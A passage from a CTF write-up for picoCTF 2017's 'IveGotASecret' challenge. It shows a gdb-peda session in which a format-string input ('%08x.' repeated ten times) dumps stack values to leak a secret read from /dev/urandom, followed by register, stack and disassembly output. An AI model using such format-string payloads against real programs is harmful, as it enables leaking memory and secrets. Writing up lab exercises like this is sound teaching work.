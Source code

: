 ```
```

I have placed a break point after the file to '/dev/urandom' is closed.
This ensures that the secret is loaded.

```
gdb-peda$ run <<< $(python -c "print 10*'%08x.'")
Starting program: /home/misskanari/fun/ctf/pico2017/PicoCtf2017-Write-up/level2/bin/IveGotASecret_75/secret <<< $(python -c "print 10*'%08x.'")

[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffce98 --> 0x66058af3 
EDX: 0x0 
ESI: 0xf7faa000 --> 0x1b1db0 
EDI: 0xf7faa000 --> 0x1b1db0 
EBP: 0xffffcea8 --> 0x0 
ESP: 0xffffce80 --> 0x3 
EIP: 0x804866f (<main+132>:	add    esp,0x10)
EFLAGS: 0x217 (CARRY PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048664 <main+121>:	sub    esp,0xc
   0x8048667 <main+124>:	push   DWORD PTR [ebp-0xc]
   0x804866a <main+127>:	call   0x80484e0 <close@plt>
=> 0x804866f <main+132>:	add    esp,0x10
   0x8048672 <main+135>:	sub    esp,0xc
   0x8048675 <main+138>:	push   0x804882a
   0x804867a <main+143>:	call   0x8048480 <puts@plt>
   0x804867f <main+148>:	add    esp,0x10
[------------------------------------stack-------------------------------------]
0000| 0xffffce80 --> 0x3 
0004| 0xffffce84 --> 0xffffce98 --> 0x66058af3 
0008| 0xffffce88 --> 0x4 
0012| 0xffffce8c --> 0x8048792 (<__libc_csu_init+82>:	add    edi,0x1)
0016| 0xffffce90 --> 0x1 
0020| 0xffffce94 --> 0xffffcf54 --> 0xffffd11d ("/home/misskanari/fun/ctf/pico2017/PicoCtf2017-Write-up/level2/bin/IveGotASecret_75/secret")
0024| 0xffffce98 --> 0x66058af3 
0028| 0xffffce9c --> 0x3 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804866f in main ()
```

I inserted 10 %08x to print out 10 positions of the stack.
When the program runs, it stopped at the file close instruction.

```
   0x08048634 <+73>:    push   0x4
   0x08048636 <+75>:    lea    eax,[ebp-0x10]
   0x08048639 <+78>:    push   eax
   0x0804863a <+79>:    push   DWORD PTR [ebp-0xc]
   0x0804863d <+82>:    call   0x8048440 <read@plt>
```
